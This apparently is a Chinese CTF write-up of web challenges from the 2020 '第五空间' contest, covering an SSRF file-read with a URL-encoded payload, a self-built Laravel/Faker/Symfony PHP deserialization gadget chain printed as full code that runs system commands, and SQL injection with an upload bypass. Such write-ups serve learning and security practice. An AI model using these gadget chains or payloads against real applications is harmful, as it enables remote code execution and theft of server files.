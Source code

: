```yaml
---
layout:     post
title:      第五空间-WP
subtitle:   第五空间 web wp
date:       2020-05-12
author:     BY Diego
header-img: img/wenzhang/post-bg-第五空间.jpg
catalog: true
tags:
    - WP
    - 比赛
---
```


# hate-php

简单的无字符webshell 利用取反绕过 + php7 特性
 
![NwNpLV.png](https://s1.ax1x.com/2020/06/24/NwNpLV.png)

![NwNSs0.png](https://s1.ax1x.com/2020/06/24/NwNSs0.png)

`flag{ecee9b5f24f8aede87cdda995fed079c}`

# do you know

非预期解

index.php 存在如下限制
![NwaTqx.png](https://s1.ax1x.com/2020/06/24/NwaTqx.png)
检测 `$_SERVER['QUERY_STRING']` 但是不会url解码 ，因此url编码绕过

下面几个限制 `_GET` 最后一个参数复制给url
构造如下
```
a=1&b=1&url=..
```

后面是php的curl， 因此为ssrf ，支持file，dict等协议 尝试读文件
![NwaqIO.png](https://s1.ax1x.com/2020/06/24/NwaqIO.png)
xxe.php 存在main.php 和 hint.php
读取文件main.php
![NwabdK.png](https://s1.ax1x.com/2020/06/24/NwabdK.png)

发现存在flag.php
![NwaHZ6.png](https://s1.ax1x.com/2020/06/24/NwaHZ6.png)

payload
```
?a=1&b=1&url=%66%69%6c%65%3a%2f%2f%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%66%6c%61%67%2e%70%68%70
```
`flag{5bc0bc291d322450679866d5ddf0a346}`

# laravel

从网上公开的利用链已经不能用了 ，尝试自己挖掘

先寻找利用点 全局搜索`call_user_func`,目标锁定在
![NwBdwq.png](https://s1.ax1x.com/2020/06/24/NwBdwq.png)

然后寻找起始点`__destruct` 而这里的`__destruct` 需要调用上面的`__call`，找到符合条件的点`\vendor\laravel\framework\src\Illuminate\Routing\PendingResourceRegistration.php`
![NwBamn.png](https://s1.ax1x.com/2020/06/24/NwBamn.png)

会去调用`register`，而`register`又会调用`$this->registrar->register()`,同时`$this->registrar`可控，因此调用了`__call`

利用

目的是利用`vendor\fzaninotto\faker\src\Faker\ValidGenerator.php`中`__destruct`的`call_user_func`
这里`$this->validator`可控 `$res` 为call_user_func_array 的返回值
![NwBNOs.png](https://s1.ax1x.com/2020/06/24/NwBNOs.png)

因此还需要寻找一个返回值可控的点，同时由于`name` 不可控因此 调用的方法不可控，但是会调用可控制类的`__call`方法，因此再寻找一个符合条件的`__call` 方法

`vendor\fzaninotto\faker\src\Faker\DefaultGenerator.php` 中 `$this->default`可控 因此`$res`可控
![NwBtyj.png](https://s1.ax1x.com/2020/06/24/NwBtyj.png)


最终`call_user_func`全部可控,构造链如下
```php
<?php

namespace Illuminate\Routing {

	class PendingResourceRegistration{

    	protected $registrar;
    	protected $registered = false;
    	public function __construct(){

    	    $this->registrar = new \Faker\ValidGenerator();
    	}
	}

}

namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace {

	$a = new Illuminate\Routing\PendingResourceRegistration();
	echo urlencode(serialize($a));
}
?>
```
亦或者如下
```
<?php
namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace Symfony\Component\Routing\Loader\Configurator{

	class CollectionConfigurator{
		private $parent;
    	private $parentConfigurator;
    	private $parentPrefixes;
    	public function __construct(){
    		$this->prefixes = 1;

    	    $this->parent = new \Faker\ValidGenerator();
    	}
	}
}

namespace {

	$a = new Symfony\Component\Routing\Loader\Configurator\CollectionConfigurator();
	echo urlencode(serialize($a));
}
```
![NwDPXj.png](https://s1.ax1x.com/2020/06/24/NwDPXj.png)
`flag{90569859b0164266ef04461bbc1d5cc5}`


# 美团外卖

一开始以为是个注入题目 可以`'union select 'md5'# ` 然后对应值登入 但是发现是个空壳


扫描目录发现存在www.zip
审计存在注入漏洞 daochu.php（无任何过滤）
![NwsNOH.png](https://s1.ax1x.com/2020/06/24/NwsNOH.png)

注入发现hints
![Nwsd0A.png](https://s1.ax1x.com/2020/06/24/Nwsd0A.png)

是个后台地址，同时发现框架使用了webuploader 插件 ，存在上传漏洞
`lib\webuploader\0.1.5\server\preview.php`多加了限制 然后大写绕过
![Nwsamd.png](https://s1.ax1x.com/2020/06/24/Nwsamd.png)

![NwswTI.png](https://s1.ax1x.com/2020/06/24/NwswTI.png)
最后`?file = /flag` 即可


![Nwst6e.png](https://s1.ax1x.com/2020/06/24/Nwst6e.png)

`flag{90569859b0164266ef04461bbc1d5cc5}`
